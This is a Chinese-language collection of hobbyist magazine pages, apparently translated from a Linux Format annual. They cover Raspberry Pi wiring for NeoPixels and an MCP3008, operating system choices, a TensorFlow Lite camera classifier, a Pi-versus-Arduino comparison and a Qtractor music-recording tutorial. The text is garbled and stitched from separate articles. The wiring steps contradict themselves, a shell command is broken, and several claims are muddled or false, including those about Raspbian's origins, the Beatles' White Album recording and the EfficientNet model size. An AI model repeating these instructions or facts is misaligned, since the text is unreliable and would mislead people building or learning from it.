        pixels[i] = (red, green, blue)
    sleep(0.1)
```

## 开始扫描天空

> “ADS-B 信号会被墙壁阻挡，因此如果将天线放置在窗户附近，你会看到更多飞行器。”

### 快速连接

使用母对公跳线将 MCP3008 连接到 Raspberry Pi。MCP 的第 10 引脚应连接到 Pi 的 GPIO 08。第 11 引脚连接到 GPIO 10。第 9 引脚在 GPIO 10。第 12 引脚连接到 GPIO 9，第 13 引脚连接到 GPIO 11。插入电位器并使用公对公跳线将其连接到 MCP3008。将每一个连接到引脚 1、2 和 3 即可，这很简单。还有三根线（或者通过其他方式连接）连接到 Adafruit NeoPixels：PWR、GND 和 IN。PWR 和 GND 连接到面包板的 + 轨。GND 连接到 - 轨。“IN”连接到 Raspberry Pi 的 GPIO 18。

我们需要安装 NeoPixels 的 Python 模块：

```bash
$ sudo pip3 install rpi_ws281x adafruit-circuitpython-neopixel
```

请参阅最后几页，了解在 Arduino 上可能会有什么不同。

> 至此，我们已经克服了 Pi 对模拟电子设备的“反感”。

## 选择一个 OS，随便哪个...

这里有种类繁多的用途广泛的操作系统，它们正渴望进入你的 SD 卡。以下是安装方法。

如今，Raspberry Pi OS（原名 Raspbian）是 Pi 的标准操作系统。但并非一直如此。在最初阶段，Pidora（一个实验性的 Fedora 分支）是领先的竞争者。Pidora 最终淡出了舞台，而 Raspbian 凭借几位爱好者对 Debian 进行大规模重建的努力而接管了地位。情况很快发生了变化，一旦 Raspbian 增加了“硬浮点（hard float）”支持（使其能够利用 Pi 的浮点运算单元实现显著的加速），它很快就成为了事实上的标准。在接下来的一年左右时间里，它被 Raspberry Pi 基金会采用，而基金会此前一直将软件方面的开发交给社区。在 Pi 的早期日子里还出现了其他几个 OS，包括 Raspbian（传奇的 AMC OS Vox Media Center 的移植版）以及非官方的 Arch Linux ARM 设备移植版。这些通常基于发行版现有的对 ARMv6 架构的支持。

随着时间的推移，出现了新的、更强大的 Pi，尽管直到出现能够利用新硬件的 OS 还需要一段时间。2016 年推出的 Raspberry Pi 3 是第一款配备 64 位处理器的设备，但直到今年，ARM 的 64 位 OS 才开始普遍广泛可用。

### 迈向 64 位

自从 Pi 3（配备四核处理器）问世以来，将 Pi 像普通桌面电脑一样使用已几乎可行。现在有了 Pi 4（最高 8GB RAM 且支持从 USB 存储启动），这实际上已经实现了。Phoenixos.com 的基准测试表明，最近发布的 64 位 Raspberry Pi OS 的性能明显优于其 32 位版本。对此类基准测试应持谨慎态度，但在我们的测试中，我们发现一切运行得流畅得多。

除了官方 OS，还有一个桌面版 Ubuntu 构建（以及 Ubuntu Server 和 Canonical 专注于 IoT 的 Ubuntu Core）。这些目前还不支持 Pi 4，但也有 Manjaro 和 Pop!_OS 的 Pi 版本。这些都提供 64 位版本，可以让你的 Pi 3 或 4 成为它能达到的最佳桌面机器。

在大多数情况下，桌面 OS 的行为与 PC 对应版本完全一致，但请记住 Pop!_OS for Pi 还很新，因此你可能会遇到一些不完善的地方。此外，某些软件（主要是像 Microsoft Office 这样的专有软件）没有为 ARM 构建，因此你可能无法完全重建你的桌面体验。

自从有了 Raspberry Pi，人们就一直在用它们制作媒体中心。即便如此，得益于其 VideoCore SoC，最初的 Pi 在仅有 250MB RAM 的情况下就能流畅播放 1080p 内容。通过原版 RISC OS Pi 的魔力，重温一个程序以感叹号开头的简单时代吧。

## RASPBERRY Hi-Fi-Pi

Pi 的内置模拟音频能力不值一提。如果只是偶尔发出嘀嘀声，这没关系。如果你通过 HDMI（支持完整的 7.1 环绕声）播放音频，或者由数字接收机承担繁重工作（数模转换），那么这也完全无关紧要。但如果你想将旧的模拟放大器连接到 Pi，你需要先购买一个专用 DAC，否则声音会显得空洞且缺乏范围。耳机插孔还会拾取来自其他组件的噪声和静电。

这时，各种 DAC（数字模拟转换器）HAT 扩展板成了我们的救星，它们能以较低的成本实现有意义的音频重现。我们测试了 iQuaudo DAC+ HAT，发现它能够输出 192kHz 的音频。它通过 I2S 协议从 Pi 获取数字音频信号，并将其传输到自身的高性能 DAC 中。

还有其他制造商，例如 HiFiBerry 和 Allo（后者甚至提供一个单独的重锁单元，以规避音频信号重采样带来的异常）。一些 HAT 甚至内置了放大器，因此你可以制作一个每声道 35 瓦的微型轰鸣音箱。不过，我们更倾向于使用我们高质量的 90 年代放大器，并发现 iQuaudo 的产品是最佳选择，最令人满意——除了对我们的邻居来说；事实证明，他们不喜欢迷幻电音。

历史上我们推荐使用 Volumio (https://volumio.org)，它现在依然很棒，但尽管如此，也非常值得尝试一下 RuneAudio (https://runeaudio.com)。

在 LXF284 中，我们深入探讨了 LibreELEC，它将自己描述为“刚刚好足够的操作系统”（JEDOS），以符合其目标，且其版本发布时间与后者同步。代号为 Matrix 的 Kodi 19 是一个重大版本，并在 2021 年 8 月底被整合进 LibreELEC 10.0.0 中。此后，两者都进行了几次小版本修订。我们在撰写评测时使用的是 LibreELEC 10.0.2 和 Kodi 19.4。当你阅读本文时，可能已有更新版本。请在 http://libreelec.tv 查看。

如果你还记得在 Archimedes 或 RISC OS（或其他被遗忘的硬件）上运行 OS 的经历，那么好消息是，它也有 Pi 版本。事实上它已经存在一段时间了，且仍在积极维护。它还可以装在 2GB 的 SD 卡中，如果你不想自己烧录，可以直接从 www.riscosystem.org/content/sarcos/ris-os-pi 获取。

## 用你的电子设备打造智能家居

在 Linux Format 大厦，我们对语音助手相当怀疑。我们的姐妹杂志大肆赞美最新的 Alexa 功能，以及它们如何让在亚马逊下单变得更容易。他们很快就忘记了当他们的 Siri 在电视上被唤醒，而所有在听觉范围内的精美手机都开始疯狂提供帮助时所引发的混乱。

技术专家们诗意地谈论将网络栈设备塞进家中每一个电器的重要性，以便“智能电器能够”相互交互，这实际上把它们变成了处于休眠状态的吸尘器。但这一切并非毫无用处，语音助手许多阴暗的一面可以通过开源的力量来消除。例如 Mycroft，它依赖于开源（且由硬件驱动）的语音助手，你可以将其安装在 Pi 上。请在 https://mycroft.ai 查看。

回到未来，Manjaro 基于 Arch Linux，这是一个滚动更新的发行版，其吸引力在于“保持简单，傻瓜化（KISS）”的哲学（并且可以通过社区创建的 Arch Linux ARM 项目在 Raspberry Pi 上使用）。Manjaro 解决了在 Pi 上安装 Arch 的痛苦，提供了预配置镜像，并提供支持 Xfce 和 LXQt 桌面环境的版本，这两个环境都足够熟悉且轻量，即使你选择 2GB 版本，也能在 Pi 4 上提供体面的桌面体验。请访问 https://manjaro.org/download/ #raspberry-pi 了解更多信息。

对于寻求更休闲追求的人来说，Pi 为游戏提供了理想的平台。Batocera.org 发行版提供了出色的复古游戏体验。它包含了你记得的任何平台的模拟器，从 DOS、Amiga、NES 和 System Master 等史前经典，到 PlayStation 1 等中年系统，以及 MAME（多重街机模拟器）。

谈论复古游戏时总会有法律陷阱，因为提供非法 ROM 的阴暗网站层出不穷。版权持有者过去曾打击此类网站，而且感谢像 mini C64 等获得部分内容授权的新款复古游戏机，这种打击肯定会继续。幸运的是，现在有大量合法内容，如果它是 Amiga 内容，你经常会发现很多你最喜欢的游戏本身就是公有领域。一些网站在 Amiga 游戏方面得到了法律专家的“认可”；你可以在 www.amigapmd.com/freeware.html 找到列表。

Kodi 让管理你的媒体库变得轻而易举，并被用于各种其他媒体源。

Batocera 同样包含了 LibreELEC 的 PUcore 以及 Amiberry 模拟器，但为了让它们工作，你需要提供自己的“智能” ROM。如果你拥有原硬件，可以直接从中获取。如果没有，你可以购买 Cloanto 的 AmigaOS Forever Android 工具（见 www.amigaforever.com），从中提取 ROM 文件，并将其放入 Batocera 的文件系统中。很简单。

Batocera 随附了一些合法的模拟器（包括一些美好的模拟器提醒），其中包括一个很棒的《咚基刚 (Donkey Kong)》重制版。令我们印象深刻的是，它能同时支持我们的复古风格游戏控制器和 Steam 控制器。还有几个其他替代方案值得关注。RetroPie 非常神奇 (https://retropie.org.uk)，但偶尔需要一些复杂的设置。此外还有 Lakka (lakka.tv)，它也非常棒。Kodi（以及 LibreELEC）还能让你安装 MAME、DOSBox 和其他游戏大礼包。

现在 Pop!_OS 已在 Pi 上可用。而且显然，感叹号在专有名词内部也是有效的。


## 智能机器之趣

利用机器学习的力量，制作一个图像分类机器人。

在我们的最终项目中，我们将尝试一些更复杂的内容。我们将利用 Pi 4 的额外性能（这在 Pi 3 上也能运行，但体验不佳）和 TensorFlow 机器学习软件，使 Pi 能够通过摄像头对我们展示的任何物体进行分类（或尝试分类）。我们使用的是 Raspberry Pi Camera 摄像头模块，但基本操作是一样的。我们将使用适用于 Python 的 TensorFlow Lite 软件包，它使低功耗设备（或任何未配备最新张量处理芯片的设备）能够在无需 GPU 的情况下运行预训练模型。

将摄像头连接到 Pi 非常简单，只需使用排线（两端蓝色面朝向卡扣）。如果卡扣安装歪了可能会导致错误，所以请小心操作。在最近版本的 Pi OS 中，摄像头应该是自动配置的，如果不是，你可以通过之前提到的 `raspi-config` 工具进行配置。

安装 TensorFlow Lite 非常简单。首先安装 Raspberry Pi OS 桌面版——对此我们推荐 64 位版本。然后打开终端（从“接口附件”菜单中），运行：

```bash
python3 -m pip install tflite-runtime
```

> 我们到底要用左轮手枪、防毒面具和双筒望远镜做什么？想象一下如果这种 AI 在今天投入使用，噢等等……

现在我们可以获取示例代码：

```bash
$ mkdir tflite
$ cd tflite
$ git clone https://github.com/tensorflow/examples --depth 1
$ cd examples/lite/images/image_classification/
$ raspberry_pi
$ sh shell.sh
```

最后一个命令需要一段时间，因为所有的 Python wheels 正在被排列并放置在正确的位置。这段时间正适合喝杯茶。现在勾选（下方）关于进入旧版（legacy）摄像头接口的复选框。重启并再次打开终端后，你可以运行：

```bash
$ cd ~/rpi-examples/examples/lite/images/image_classification/raspberry_pi
$ python3 classify.py
```

你应该能看到一个窗口，显示来自摄像头的实时画面，上面覆盖着一些关于物体是什么的猜测。在没有主动冷却的情况下，我们的 Pi 4 很快就变得很烫，但在没有超频的情况下，我们成功维持了每秒 20 帧的不错吞吐量。我们使用的模型名为 EfficientNet，令人惊讶的是它的大小不到 60KB。你可以从 TensorFlow Hub 下载其他图像分类模型：https://tfhub.dev/tensorflow/collections/lite/task-library/image-classifier/1。

### Pi 对比 Arduino

Raspberry Pi 是一台小巧但强大的计算机。但对于许多物理原型项目来说，事实证明 Pi 的性能过剩了。这没什么不对，只是读取传感器并点亮一个 LED 灯（或以其他方式表达某种输出）并不真的需要 1.5GHz 的 CPU 和数 GB 的内存。这些额外的资源允许加载更多软件层，可以使用像 Python 这样更用户友好的语言，并且非常适合快速原型设计（这让我们免于直接操作硬件接口的位敲击），但事实证明，使用更简单的硬件依然能完成很多工作。

在流行的 Arduino UNO 系列单板计算机核心中的 8 位 Atmel Atmega328 CPU 运行频率在 8 到 16MHz 之间。这些板子总共约有 4K RAM，外加 1K EEPROM 用于存储。这些数字看起来可能不尽如人意，但请记住，微控制器（单芯片上的 CPU 加上内存）可以用极少的资源完成很多有用的工作。在互联网进入家庭之前，电子锁、计算器、数字手表和环境传感器就一直由微控制器驱动。如果你买一块 Arduino（目前最常见的品牌），整个软件生态系统正等待着你，没错。

> 这个来自 DeepMind 的原型大理石轨道是由 Arduino 控制器驱动的，当有流量通过时它会点亮 LED 灯。

### 友好的编程环境

Arduino 软件是一个跨平台开发环境，用于编写代码（在 Arduino 术语中称为“草图/sketches”）并将其发送到 Arduino 板（通过 USB 串口链路）。它使入门变得非常简单，你可以从零开始编写自己的草图，或者使用 IDE 内置的示例，以及测试社区中丰富的示例代码。我们之前提到过，在 Phonehome 上最受欢迎的草图是使用高级语言编写的（尽管某些板子支持 IPython 版本）。事实上，Arduino 编程语言与 C++ 或 C 最为相似。但它很容易上手，而且你不需要担心内存管理。你不需要声明和定义变量类型，而且你会看到比 Python 中更多的分号、花括号和代词，但除此之外，它的工作方式与上述脚本语言基本相同。

Arduino 生态系统远不止于此。云端功能让你能舒适地在浏览器中运行一切。有一些项目尽管 Arduino 性能不足，但实际上比 Raspberry Pi 更适合，有时 Raspberry Pi 过于冗余，有时甚至是有害的。

例如，一个典型的第一个物理计算项目是制作类似 LED 灯的东西。这在几乎任何平台上都很简单。但假设我们想做得更好。彩色 RGB LED 变得越来越便宜，这是一个展示代码能让漂亮事物发生的绝佳方式。然而，尝试将 RGB LED 插入 Arduino，你会发现一个问题。LED 通常由 5V 电源供电（除非只有几个，否则不应直接用 Arduino 或 Pi 供电），而且大多数 LED 要求其数据脉冲为 5V。不幸的是，对于 Pi 用户来说，Pi 的 GPIO 脉冲通常只有 3.3V 逻辑。但这可能不是问题（某些 LED 的容忍度较高），或许能正常工作。

如果不能，较低的电压通常不会损坏任何东西，但可能会导致发光二极管不需要过滤器。你可以使用一对电阻或分压器来实现，但最好的办法是使用驱动器 (DOPA320) 或时钟芯片 (NeoPixels WS2812) 的方式。将其作为数据线。此时，进行正确的电平转换变得很有价值，可以使用电平转换芯片（例如 74HCT125），它可以将最多四个输入从 3.3V 提升到 5V。这些在面包板上接线足够简单，但像 Arduino 那样直接连接会更整洁。为了平衡报道，我们应该提到，许多外设确实使用 3.3V 逻辑，因此在这种情况下是 Arduino 需要电平转换。而且在这种降压情况下，5V 可能会损坏它们。现在有稍微昂贵一些的双向电平转换器，当你开始积攒组件并将其与各自的服务一起使用时，它们将非常有用。

## RASPBERRY PI 还是 ARDUINO?

> “一个典型的第一个物理计算项目，例如，涉及闪烁一个 LED 灯。这在任何平台上都很简单。”

到这里，我们对 Pi 外设的走马观花式巡礼就结束了，请告诉我们你的实验进展如何，进一步学习并获取所需器材！

## 模拟交易 (ANALOG TRADES)

Arduino 优于 Raspberry Pi 的一个优点是它可以连接模拟采样传感器（比如热二极管或光度计）。得益于内置的 ADC（模数转换器），Arduino 上有六个 GPIO 引脚可以用作模拟输入（或输出）。这样一来，Arduino 的引脚比 Raspberry Pi 的更灵活。Pi 的许多 GPIO 引脚可以用作标准数字引脚，或通过 SPI、I2C 或 I2S 总线进行接口，但它们仅能处理数字信号。

Pi 没有 ADC 芯片，所以如果你想连接模拟传感器，需要额外的电路。你可以使用外部 ADC 芯片（如 MCP3008）并将其连接到面包板，就像我们将使用电平转换器与 LED 通信一样。但仅连接一个三线传感器就这么做有点大材小用，当你拥有至少七个 GPIO 引脚时，可以尝试一些简单但前卫的方法。一个小替代方案是使用像 GrovePi（或更小的 GrovePiO）这样的 HAT，它不仅能让你连接模拟传感器，还能连接垂直数字传感器。哦，你甚至可以用这种方式与 Pi 的串口通信。

总有办法将 LED 等设备加入到你的项目中，我们将尝试对此多解释一点。它们可能会消耗相当大的电流（全白光时每个可达 90 毫安），所以超过 10 个通常需要自己的电源。否则，你的 Pi 在负载下将难以支撑其供电，导致运行异常。关于大量 LED 串联的问题就在这里。

## 摄像头配置

基于 Debian 11 "Bullseye" 的最新版本 Raspberry Pi OS 引入了一种与摄像头交互的新方式。在此更新中，摄像头采用了新的接口，而副作用是之前与摄像头配合工作的旧应用程序（包括用于简单捕捉任务的 `raspistill` 和 `raspivid`）无法直接使用。成熟的项目将开始支持新标准，但与此同时，通常默认安装了一些新的基于 `libcamera` 的工具（尝试运行 `libcamerad-hello`）。有一个 `libcamera` 工具默认未安装，即 `libcamera-still`，我们需要将其添加进去（且不需要花太多精力）。我们尝试过自行构建，但证明太困难了。

因此，请通过运行 `sudo raspi-config` 并选择 `Interface Options` $\rightarrow$ `Legacy Camera` 然后按回车，再次按回车确认，并注意该支持将在以后被弃用的警告，从而启用旧版摄像头接口。你需要重启才能使此设置生效。有关 `libcamera` 工作模式的更多信息，请参阅 Pi 基金会的这篇博客文章：www.raspberrypi.com/news/using-the-picamera2-library-with-tensorflow-lite。


# QTRACTOR
致谢：www.Qtractor.org

### 如何搭建专业级音乐工作室

### Michael Reed 深入探讨了基于 Linux 的音乐工作室所能实现的可能性，并发现其潜力无限。

在上一期中，我们安装了 DAW（数字音频工作站）Qtractor，并了解了在 Linux 中进行音乐创作的基础知识。这一次，我们将通过研究更多的处理和编辑功能，进一步深入探讨 Qtractor 中的 MIDI。我们还将尝试通过导入文件和从零开始录音两种方式，将数字音频文件添加到项目中。



一旦将音频文件添加到 Qtractor 项目中，我们就可以发挥“剪刀”的作用，开始裁剪音频使其契合于整个作品。我们假设您已经在系统中安装了 JACK 和 Qtractor 软件包。如果没有，请在软件包管理器中查找。

量化（Quantize）对话框可用于指定选定音符中需要修正的属性。MIDI 工具对话框中的所有选项卡都值得研究。

我们的专家：Michael Reed 最初是通过将两台磁带录音机连接在一起，然后通过交换磁带来添加额外图层来录制音乐的。他的 Amiga 1200 提供了鼓组。

### MIDI 编辑

我们将研究 Qtractor 提供的一些更高级的 MIDI 编辑工具。在开始录制之前，您的作品中需要存在 MIDI 数据，但如果您还没有 MIDI 键盘，可以考虑从互联网下载一个 MIDI 文件。在网上搜索 midi 文件应该会有不少收获。将 midi 文件拖放到 Qtractor 主窗口中，您就会看到一些有趣的简单旋律片段可以用来尝试。

双击 MIDI 片段即可打开编辑器窗口。在这里，您可以通过用鼠标拖动来高亮显示一组音符，这将自动选择片段中的所有音符。如果没有选中任何音符，MIDI 工具将不会产生任何效果。

量化（将 MIDI 音符的时间锁定在网格上）是对大多数音乐家来说最重要的 MIDI 编辑工具之一，尤其是在创作电子风格音乐时。它位于“工具（Tools）”菜单中，可以通过右键单击选定音符或使用菜单栏中的“工具”菜单来访问。当您选择量化菜单选项时，会弹出一个对话框，允许您指定量化细节。在这里，您可以指定音符应吸附到网格中的哪个位置，以及相应的示例框。在某些情况下，您可能希望锁定音符在网格中的起始位置，但不想锁定音符的长度，以便保留该部分的自然感觉，音符力度（velocity）也是如此。Qtractor 的量化功能还允许您将音符锁定在某个调性上，或者通过将拍子前后的音符推移来应用摇摆感（swing feel）。

### 其他 MIDI 工具

您可能会注意到量化对话框是一个选项卡式对话框，这是因为所有的 MIDI 处理工具都集成在这个对话框中。这是一个合理的逻辑设计，意味着类似的处理功能被分在了一组。例如，在 Qtractor 中，音高移位（将音符按设定量向上或向下移动音高）是一个标准的前向 MIDI 工具。它位于编辑器功能菜单中，允许您将音符按设定量向前或向后移动。

所有涉及基于时间修改的选项都有一个下拉菜单，用于在三种不同的时间测量方式之间进行选择：秒（seconds）、拍（beats）、小节与刻度（bars and ticks）或 MIDI 帧（MIDI frames）。大多数序列软件允许您使用鼠标执行诸如调整音符大小的操作，但 Qtractor 的工具菜单提供了更强大的工具集。例如，您可以执行诸如将所有选定音符延长一段特定时间（例如 0.5 秒或按百分比）的操作。您还可以执行诸如按给定百分比随机化音符力度的变化等操作。除了出色的 MIDI 处理设施外，您还可以保存预设以便重复使用。这些预设可以在不同项目之间迁移。

当然，如果您在特定情况下更喜欢那样操作，也可以使用鼠标调整音符大小。在编辑器窗口顶部有一个下拉菜单，可用于指定吸附量（snap amount），这将影响移动和缩放操作。

您可能还会注意到，排列窗口（arrange window）上的时间轴也有一个类似的下拉菜单进行控制。在 4/4 拍（默认）中，一小节有四拍。您可以指定从单拍到拍分数的吸附细分。

> **快速提示**
> 如果您使用麦克风录制音频，请先将监听扬声器和监听耳机的音量调低。很容易产生高频反馈回路（啸叫），这不仅令人不快，还可能损坏扬声器。许多家庭工作室音乐人在录音时会使用耳机。

### 数字音频

在过去，录音室使用开盘多轨磁带机来录制吉他声和人声轨等音频元素。然而，如今更典型的是使用数字录音。幸运的是，Qtractor 在这方面配备齐全。与 MIDI 一样，数字音频能力从简单的电脑到专业配备的录音室（在那里多轨录音依然很常见）均可实现。当然，一般的 PC 通常包含相当强大的数字音频录音能力，在平均 PC 硬件上可支持约 100 个音频轨道。当您对音频层进行声音处理路由、添加大量自选的效果软件时，才更有可能触碰到上限。总之，最后将所有素材汇总在一起，在音频导入 Qtractor 后进行激光般精确的编辑，才是画龙点睛之笔。

披头士乐队（The Beatles）是少数在录制 1966 年的《白色专辑》（The White Album）时就能使用八轨机的先驱，而《波西米亚狂想曲》（Bohemian Rhapsody）则使用了 24 轨机并进行了大量的弹跳处理（bouncing，将多轨混合在一起）。对于普通用户来说，一台配置适当且性能足够的 PC 在平均硬件水平下可以管理约 100 个音频轨道。


*两个放大后的轨道（使用 Ctrl+Shift + 和 Ctrl+Shift - 增加轨道高度），包含相同的鼓循环。底部的音频片段通过 Shift+拖拽边缘，使其长度正好为两小节。*

（系统），其优点是在将片段拖入时间轴之前可以进行预览。下载一个鼓循环（如果您还没有，可以在网上搜索免费的 WAV 格式鼓循环），然后将其拖到时间轴上。

### 使其契合

使音频片段契合的最简单方法是调整大小，您可以通过拖动片段的左边缘或右边缘来实现。然而，在裁剪人声片段等素材时，为了避免声音突然中断，可以通过为片段添加淡入（fade-in）或淡出（fade-out）来避免直接切断声音。您可以通过拖动音频片段右上角的小方块来实现。淡出效果随后会在片段内部以图形方式表示。请注意，所有这些音频编辑都是非破坏性的，这意味着底层文件不会被改变。如果您第二次将音频片段拖到不同的时间轴上，您会发现该片段完全没有变化。

然而，对于鼓循环，通常更实用的是在按住 Shift 键的同时拖动片段边缘，因为这同时执行了时间偏移（timeshifting）。这意味着音频的长度会被改变，以适应您设定的新片段长度。如果您有一个与作品速度不同的鼓循环，可以使用这种技术。例如，如果您有一个采样率为...的鼓循环。

> **快速提示**
> 在安装 Linux 音乐软件时，您可能注意到存储库中有两个版本的 JACK。JACK 1 和 JACK 2 是同步开发的两个 JACK 系统分支，且目前依然共存。在大多数情况下这可以正常工作，但在涉及 Linux 音频软件包依赖关系时，确实会引起混淆。

### 音频接口

如果您的电脑有 Line-in 接口，它可以连接到诸如吉他放大器的 Line-out 接口或麦克风前置放大器的输出端。

由 Focusrite、Behringer 和 Roland 等知名公司制造的外部 USB 音频接口价格通常低于 100 欧元，并且能显著提升音质并提供额外的输入端。这些接口通常是一个黑色的小盒子，带有一些（最重要的是）闪烁的指示灯。在购买之前，请在网上搜索该适配器在 Linux 上的运行情况。

除了线路输入外，许多此类适配器还具有前置放大器，可以使用专业麦克风。有些甚至为需要幻象电源（phantom power）的麦克风提供电源。

一些外部 USB 音频适配器具有直接输入接口，可以直接连接电吉他和电贝斯等乐器。这意味着您甚至不需要使用吉他放大器或任何外部效果器，因为这一切都可以在软件中模拟。如果您想尝试这种方法，可以查看 Kapitonez Plugins Pack (https://tubeamp.com) 或 Guitarix (https://guitarix.org) 等免费 Linux 软件。


*有了 Guitarix 和合适的接口，您甚至不需要吉他放大器。使用 JACK 将其连接到 Focusrite。*


### Linux Format 年度刊 2023

将超过五个小节的片段拖动，使其正好占据四个小节。

该程序实现这一目标的方式是通过加速或减慢剪辑，使其适应调整后的大小。如果维持原样，内部音频的音高将会改变，因此 Qtractor 会自动将音频的音高移回原位。所有这些全部由系统自动处理，但不可否认的事实是，音频拉伸得越多，失真就越严重。将人声或鼓组等素材的长度改变 15% 可能足够微妙，可以在不让采样失真过于明显的情况下被接受。

现在你可以使用循环功能让一个剪辑重复精确的小节数，是时候进行循环了。操作方法与 MIDI 剪辑相同：右键点击剪辑并选择“复制 (Copy)”，然后右键点击并选择“粘贴 (Paste)”。即使你开始添加多个重复副本，这些重复的剪辑也不会占用显著的磁盘空间。

你还可以通过分割来编辑剪辑。操作方法是：选择一个剪辑（左键单击），然后将红色播放头标记（用鼠标拖动）移动到你想要切割的剪辑点，并选择“分割 (Split)” (`Ctrl+S`)。你还可以通过将选择模式（主工具栏）更改为“范围 (Range)”，然后通过拖拽选择一个区域来选中多个剪辑，接着用鼠标拖动它们进行移动。这是一个非常方便的功能，因为 Qtractor 会自动为你处理拖动剪辑时的切割，而在许多 DAW 中，移动随机的音频剪辑块是一项非常琐碎的操作。



主工具栏上有一个“选择模式”。在“矩形选择 (Rectangle Select)”模式下，你可以拖动选择一段音乐区域，然后直接移动该区域，而无需手动切割音频剪辑。

### 录制数字音频

总的来说，Qtractor 的数字音频功能不像其 MIDI 功能那样强大，但它仍然是一个功能完备的多轨硬盘录音机。你可以轻松地录制每一种乐器，然后在录制下一轨时回放该轨道，以此类推。将声音从轨道录制到 Qtractor 时，通常是从单声道或立体声源（如麦克风）录制，随后输入音频将像其他数字音频剪辑一样存储在剪辑中。

在硬件和软件方面需要进行一些设置。我们只能为你提供一般性的指导，如何配置硬件设置取决于你的具体硬件细节。

### 信号链

假设你想录制一种乐器，比如原声吉他。在这种情况下，你需要将吉他的声音传送到 Qtractor 中。典型的信号链如下：将麦克风放置在麦克风支架上，正对吉他。麦克风连接到前级放大器，将信号电平从麦克风电平提升到线路电平 (Line Level)。然后，线路信号连接到声卡的线路输入端。

至此，信号已进入软件路由。使用混音器应用程序，必须将线路输入电平提高到适当水平并开始录音。在很多情况下，JACK 内部的这部分设置就足够了，你不需要更改任何内容。但是，如果没有声音进入 Qtractor，值得运行一个 JACK 管理器（如 QjackCtl，使用 Graph 窗口）来检查声卡输入是否已连接到 Qtractor 的输入端。



> Qtractor 内置了音频剪辑浏览器（窗口：\File System\）。双击可预览声音，并将其拖到时间轴上以添加到你的作品中。

### 音频插件

由于 Qtractor 的工作方式，你可以在 MIDI 或数字音频轨道上使用相同的效果插件。不过，请确保在 MIDI 轨道上将它们放置在效果合成器之后。与我们上个月详细介绍的 Calf Studio Gear (https://calf-studio-gear.org) 插件相比，Linux Plugin Studio Plugins (https://lsp-plugins.in) 是一套非常优秀的开源音频插件集。首先，它提供了许多不同的压缩器。压缩器限制声音中较响部分与较弱部分之间的范围，当你增加增益进行补偿时，它会使整体声音变得厚实。这正是增强某些单薄的鼓声或控制人声轨道的绝佳工具。

你可以使用侧链压缩器（sidechain decompressor）使音乐部分随鼓点同步律动，这种声音在舞曲中非常流行。多带压缩（Multiband compression）根据频率提高音量电平；在主输出 (Master output) 上使用此功能，可以为整体混音增加一些低频冲击力 (thump) 和高频亮色 (sizzle)。

所有这些工具都包含在 LSP 捆绑包中，它还包含一些涉及声音处理和测量分析领域的插件。


所有控制项！压缩单个频带，并将输入信号作为频率图表显示。



录音完成后，使用结果剪辑的修剪和移动功能，直到你对结果满意。在进入下一轨时，不要忘记禁用刚刚创建轨道的“录制 (Record)”图标。即便如此，我也不会太在意；Qtractor 是非线性且非破坏性的，所以如果你不小心在现有轨道上再次录音，也不会破坏任何东西——Qtractor 只会将新的音频剪辑放置在旧剪辑之上。

通过同时激活多个轨道，你可以同时从多个输入端录音。事实上，如果你拥有能够支持的音频接口，Qtractor 也能处理将多个麦克风输入分配到独立轨道的复杂设置。通过这种方式，你可以为一套完整的鼓组甚至整个乐队录制独立的音轨。

QuickOil（GNOME 窗口显示 Qtractor 使用 JACK 连接到系统的声音输入和输出。Sustain 正在运行，并在需要时准备好插入 Qtractor）

### 最终混音

混音是一门调整单个轨道电平以及增加和减少效果的艺术。在过去，混音发生在现场录制和作曲之后，但现在大多数音乐人在创作过程中就会进行一定的混音。大部分混音工作倾向于在——你猜对了——混音器 (Mixer) 窗口中完成。按下 `F8` 打开混音器。

你可以想象，声卡设置的具体细节会根据你的声音硬件而有所不同。如果你使用计算机的内置音频设施，通常的起点是使用 ALSA 混音工具（在终端输入 `alsamixer`）来设置电平。如果你使用 JACK，请确保你的默认系统声音设备放大混音器已执行此操作，因为 PulseAudio 混音器而非管理 ALSA 的那个，对于录音应用来说没什么用处。

除了 ALSA 混音器，声卡可能自带混音程序。如果你使用的是非常高端的设备，请参考你的声音设备文档。同时请记住，你的计算机中可能有多个声音设备。例如，大多数现代显卡都包含一个用于 HDMI 输出声音的声音设备。

音频轨道的处理方式与我们上个月介绍的 MIDI 轨道相同。如你所见，每个轨道都有自己的通道条 (channel strip)。主滑块调整轨道的音量，还有一个全向 (pan) 滑块用于调整轨道的立体声位置。数字音频和 MIDI 轨道在工作方式上的这种对称性也延伸到了效果的使用上，它们的添加方式相同：点击通道滑块名称下方的空白区域并选择“添加轨道 (Add Track)”。

### 开始录制

